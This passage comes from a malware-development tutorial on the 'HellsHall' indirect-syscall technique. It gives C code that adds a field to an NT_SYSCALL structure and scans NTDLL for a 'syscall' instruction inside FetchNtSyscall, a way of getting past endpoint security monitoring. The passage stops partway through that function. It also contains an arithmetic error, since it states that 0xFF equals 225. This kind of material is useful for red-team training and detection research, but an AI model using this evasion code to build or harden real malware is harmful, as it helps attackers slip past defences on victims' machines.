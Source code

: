 [![](89%20Indirect%20Syscalls%20-%20HellsHall%2094f45eeb837f4eb6829f55eb1d6c20dc/indirect-syscalls-219308096-e7b35871-ecc6-4b5a-9bf4-b7c3336002f0.png)](89%20Indirect%20Syscalls%20-%20HellsHall%2094f45eeb837f4eb6829f55eb1d6c20dc/indirect-syscalls-219308096-e7b35871-ecc6-4b5a-9bf4-b7c3336002f0.png)### **Updating The NT\_SYSCALL Structure**

To do this, the newly introduced `NT_SYSCALL` structure will now contain a new member, `pSyscallInstAddress`. This member holds the address of a random `syscall` instruction in NTDLL.


```
typedef struct _NT_SYSCALL
{
    DWORD dwSSn;                    // syscall number
    DWORD dwSyscallHash;            // syscall hash value
    PVOID pSyscallAddress;          // syscall address
    PVOID pSyscallInstAddress;      // address of a random 'syscall' instruction in ntdll

}NT_SYSCALL, * PNT_SYSCALL;

```
### **Updating FetchNtSyscall**

The next step is to modify the `FetchNtSyscall` function to search for the `syscall` instruction address. The updated code performs the following:

* Checks if the syscall's address is successfully retrieved.
* Add `0xFF` or 225 bytes (in decimal) to the address of the syscall function to search for a `syscall` instruction. The reason 225 bytes are added to the syscall function's address is to search for the `syscall` instruction in a random function that is 225 bytes away from the initial syscall. Keep in mind that the value of 225 is completely arbitrary and could be replaced with any other value.
* Initiates a for-loop that searches for the opcodes `0x0f` and `0x05` which represent the `syscall` instruction.
* The search boundary is `RANGE` which is 225, meaning that this for-loop can search 225 bytes for the `syscall` instruction.
* When a match is found, `pSyscallInstAddress` is set to the address of the retrieved `syscall` instruction.


```
BOOL FetchNtSyscall(IN DWORD dwSysHash, OUT PNT_SYSCALL pNtSys) {

    // initialize ntdll config if not found
    if (!g_NtdllConf.uModule) {
        if (!InitNtdllConfigStructure())
            return FALSE;
    }

    if (dwSysHash != NULL)
        pNtSys->dwSyscallHash = dwSysHash;
    else
        return FALSE;

    for (size_t i = 0; i < g_NtdllConf.dwNumberOfNames; i++) {

        PCHAR pcFuncName    = (PCHAR)(g_NtdllConf.uModule + g_NtdllConf.pdwArrayOfNames[i]);
        PVOID pFuncAddress  = (PVOID)(g_NtdllConf.uModule + g_NtdllConf.pdwArrayOfAddresses[g_NtdllConf.pwArrayOfOrdinals[i]]);

        // if syscall found
        if (HASH(pcFuncName) == dwSysHash) {

            pNtSys->pSyscallAddress = pFuncAddress;

            if (*((PBYTE)pFuncAddress) == 0x4C
                && *((PBYTE)pFuncAddress + 1) == 0x8B
                && *((PBYTE)pFuncAddress + 2) == 0xD1
                && *((PBYTE)pFuncAddress + 3) == 0xB8
```